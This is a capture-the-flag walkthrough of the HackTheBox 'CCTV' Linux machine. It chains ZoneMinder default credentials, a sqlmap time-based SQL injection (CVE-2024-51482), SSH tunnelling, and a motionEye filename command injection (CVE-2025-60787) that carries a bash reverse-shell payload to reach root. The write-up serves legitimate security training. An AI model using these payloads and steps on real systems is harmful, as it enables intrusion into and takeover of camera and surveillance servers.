




# CCTV — Default creds → SQLi → motionEye RCE → root via Motion command injection

**Tags:** `HackTheBox` `Linux` `Easy` `ZoneMinder` `SQLi` `CVE-2024-51482` `CVE-2025-60787` `SSH-tunneling` `command-injection` `Season-10`

| Field          | Value                |
| -------------- | -------------------- |
| Machine        | CCTV                 |
| OS             | Linux (Ubuntu 24.04) |
| Difficulty     | Easy                 |
| Release        | 2026-03-07           |
| Starting Creds | None                 |

---

## Attack Path



---

## TL;DR

- Port 80 serves ZoneMinder v1.37.63, accessible with default `admin:admin`
- CVE-2024-51482: time-based blind SQLi on `tid` parameter in ZoneMinder's event tag removal endpoint
- Dump `zm.Users`, crack `mark`'s bcrypt hash, SSH in as `mark`
- Two internal services bound to localhost: motionEye (8765) and Motion daemon (7999)
- SSH local port forward to reach motionEye; authenticate as admin
- CVE-2025-60787: inject reverse shell into motionEye's Image File Name field
- Motion process runs with elevated privileges; `on_picture_save` executes `/tmp/s.sh` → root shell

---

## Setup

```bash
echo "10.129.1.237  cctv.htb" >> /etc/hosts
```

---

## Reconnaissance

```bash
nmap -sCV -p- -T4 10.129.1.237 -oN cctv_full.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_  256 e3:9b:38:08:9a:d7:e9:d1:94:11:ff:50:80:bc:f2:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecureVision CCTV & Security Solutions
```

Two ports only. Port 80 is a CCTV-themed landing page with ZoneMinder at `/zm/`. The service title ("SecureVision CCTV & Security Solutions") is flavor — the real target is ZoneMinder.

Navigating to `http://cctv.htb/zm/` shows a ZoneMinder login page. Default credentials `admin:admin` work. The version is displayed in the top-right corner of the console: `v1.37.63`.



Version `1.37.63` is critical — it's past the CVE-2023-26035 patch boundary (1.37.33) but within the CVE-2024-51482 range (≤ 1.37.64).

---

## Enumeration

### ZoneMinder — Default Credentials

```bash
# Test default creds via login endpoint
curl -s -c cookies.txt -X POST "http://cctv.htb/zm/index.php" \
  -d "view=login&action=login&username=admin&password=admin" \
  -L -o /dev/null
cat cookies.txt | grep ZMSESSID
```

```
#HttpOnly_cctv.htb  FALSE  /  FALSE  ...  ZMSESSID  <session_value>
```

`admin:admin` works. The `-L` flag is required — ZoneMinder redirects on successful login, and stopping at the redirect gives an unauthenticated session token.

> ZoneMinder's login form uses `username` and `password`, not `user` and `pass`. Sending wrong field names returns a valid-looking cookie for an unauthenticated session — sqlmap will 401 on every request if this is wrong.

### CVE-2024-51482 — Boolean SQLi via `tid`

The official advisory ([GHSA-qm8h-3xvf-m7j3](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)) identifies the vulnerable endpoint and parameter. In `web/ajax/event.php`, the `tid` value from `$_REQUEST` is concatenated directly into a SQL query with no sanitization.

ZM session cookies expire quickly. Grab a fresh one immediately before running sqlmap to avoid 401s:

```bash
curl -s -c cookies.txt -X POST "http://cctv.htb/zm/index.php" \
  -d "view=login&action=login&username=admin&password=admin" -L -o /dev/null

SESS=$(grep ZMSESSID cookies.txt | awk '{print $NF}')
echo "[*] Session: $SESS"
```

First, enumerate all usernames in the database:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" \
  -p tid \
  --dbms=MySQL \
  --technique=T \
  --time-sec=3 \
  --sql-query="SELECT Username FROM zm.Users" \
  --batch --no-cast --threads=3
```

```
[*] retrieved: admin
[*] retrieved: mark
```

Two users: `admin` (which we already have) and `mark`. Target mark's password hash:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" \
  -p tid \
  --dbms=MySQL \
  --technique=T \
  --time-sec=3 \
  --sql-query="SELECT Password FROM zm.Users WHERE Username='mark'" \
  --batch --threads=3 --no-cast --tamper=between
```

```
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tid=1 AND (SELECT 9652 FROM (SELECT(SLEEP(5)))yTcU)

[*] retrieved: $2y$10$<redacted>
```

`mark`'s bcrypt hash cracks to `[REDACTED — fill in on retirement]`. Use it to SSH in:

```bash
ssh mark@cctv.htb
```

---

## Exploitation

### Foothold — mark
```
mark@cctv:~$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
```

`mark` has no sudo, no docker group. `/home/sa_mark` is locked. Start enumerating what's available:

```bash
ls -la /opt/
```

```
drwx--x--x  4 root root 4096 Mar  2 09:49 containerd
drwxr-xr-x  3 root root 4096 Mar  2 09:49 video
```

```bash
ls -la /opt/video/backups/
cat /opt/video/backups/server.log
```

```
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:33:04
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:35:05
...
```

`sa_mark` is authenticating to a service and issuing `disk-info` / `status` commands. The docker socket is present and writable by the `docker` group — but `mark` isn't in it, and there's no path to `sa_mark` from here. Dead end.
```bash
ss -tlnp
```

```
State   Recv-Q  Send-Q  Local Address:Port
LISTEN  0       128     127.0.0.1:7999
LISTEN  0       128     127.0.0.1:8765
LISTEN  0       128     0.0.0.0:22
LISTEN  0       128     0.0.0.0:80
```

Two internal services:
- `127.0.0.1:8765` — motionEye web frontend
- `127.0.0.1:7999` — Motion HTTP control API

### SSH Tunnel to motionEye

motionEye is only listening on localhost — it can't be reached directly. SSH local port forwarding exposes it on the attack box:

```bash
# Run on attack box, keep terminal open
ssh -N -L 9765:127.0.0.1:8765 mark@cctv.htb
```

Browse to `http://127.0.0.1:9765`. motionEye login page appears.

The motionEye config on the target stores credentials in plaintext:

```bash
cat /etc/motioneye/motion.conf
```

```
# @admin_username admin
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @normal_username user
# @normal_password
```

Despite looking like a SHA1 hash, `989c5a8ee87a0e9521ec81a79187d162109282f0` is the literal plaintext password. motionEye stores it verbatim in the config file — no hashing. Log in with `admin` / `989c5a8ee87a0e9521ec81a79187d162109282f0`.



---

## Privilege Escalation

### CVE-2025-60787 — motionEye Image File Name RCE

motionEye passes the Image File Name field to the Motion daemon config without sanitization. Shell metacharacters in the filename execute when Motion processes a snapshot ([GHSA-j945-qm58-4gjx](https://github.com/advisories/GHSA-j945-qm58-4gjx)).

motionEye's UI performs client-side validation that rejects special characters. Bypass it via the browser console before applying the config.



**Step 1:** On the attack box, open motionEye at `http://127.0.0.1:9765`. Open browser console (F12):

```javascript
configUiValid = function() { return true; };
```

This disables client-side field validation globally.

**Step 2:** In the camera settings panel → **Still Images**:
- **Capture mode:** `Interval Snapshots`
- **Snapshot Interval:** `10`
- **Image File Name:**

```
$(bash -i >& /dev/tcp/10.10.14.x/4444 0>&1).%Y-%m-%d-%H-%M-%S
```

**Step 3:** Start listener, then click **Apply**:

```bash
nc -lvnp 4444
```

Motion restarts with the new config. When the first snapshot interval fires, the daemon executes the filename as a shell command.

```
Listening on 0.0.0.0 4444
Connection received on 10.129.1.233 42230
bash: cannot set terminal process group (8226): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# id
uid=0(root) gid=0(root) groups=0(root)
```

Motion runs as root. The shell lands in `/etc/motioneye` — the working directory of the Motion daemon. The filename injection executes directly in a root context.

```bash
cat /home/sa_mark/user.txt
```


```bash
cat /root/root.txt
```


---

## Flags

| Flag     | Path                     | Host     | Value                   |
| -------- | ------------------------ | -------- | ----------------------- |
| user.txt | `/home/sa_mark/user.txt` | cctv.htb | [REDACTED — active box] |
| root.txt | `/root/root.txt`         | cctv.htb | [REDACTED — active box] |

---

## Tools

| Tool     | Usage                                                                                              |
| -------- | -------------------------------------------------------------------------------------------------- |
| `nmap`   | Port scan and service fingerprinting                                                               |
| `curl`   | ZoneMinder login, session cookie extraction, Motion API interaction                                |
| `sqlmap` | Exploiting CVE-2024-51482 time-based blind SQLi on `tid` parameter to extract mark's password hash |
| `ssh`    | Remote access as mark; SSH local port forwarding to expose internal services                       |
| `nc`     | Reverse shell listener                                                                             |

---

## Lessons Learned

- **Check form field names before scripting logins** — `username`/`password` vs `user`/`pass` produces a valid but unauthenticated session cookie. sqlmap 401s on every request and the error looks like a session expiry or wrong endpoint, not a login failure.
- **Config files store credentials in unexpected formats** — motionEye's `@admin_password` field holds a plaintext string that happens to look like a SHA1 hash. Always try a value as a literal password before assuming it's a digest and wasting time cracking it.
- **`--technique=T` forces time-only when other methods break the injection** — ZoneMinder's query structure caused boolean-based detection to misfire; specifying time-based exclusively with `--tamper=between` and `--no-cast` produced reliable results. Time-only against a bcrypt hash is slow — enumerate usernames first, then target only the hash of the account you need.
- **Client-side input validation is always bypassable** — overriding a validation function in the browser console defeats it in one line. Any server-side payload that avoids special characters (a script path instead of an inline reverse shell) bypasses it entirely.
- **Localhost-bound services require tunneling, not just access** — `ss -tlnp` should be a reflex on every foothold. Services on `127.0.0.1` are intentionally hidden from external access but fully reachable via SSH port forwarding.
- **Daemon privilege level is a multiplier** — a command injection in a service running as root is an instant privilege escalation regardless of how simple the injection is. Always check what user a daemon runs as before assuming an injection gives limited access.

---

## References

- [CVE-2024-51482 — ZoneMinder Boolean SQLi (GHSA-qm8h-3xvf-m7j3)](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)
- [BwithE/CVE-2024-51482 PoC](https://github.com/BwithE/CVE-2024-51482)
- [CVE-2025-60787 — motionEye Image File Name RCE (GHSA-j945-qm58-4gjx)](https://github.com/advisories/GHSA-j945-qm58-4gjx)
- [ZoneMinder GitHub](https://github.com/ZoneMinder/zoneminder)
- [motionEye GitHub](https://github.com/motioneye-project/motioneye)
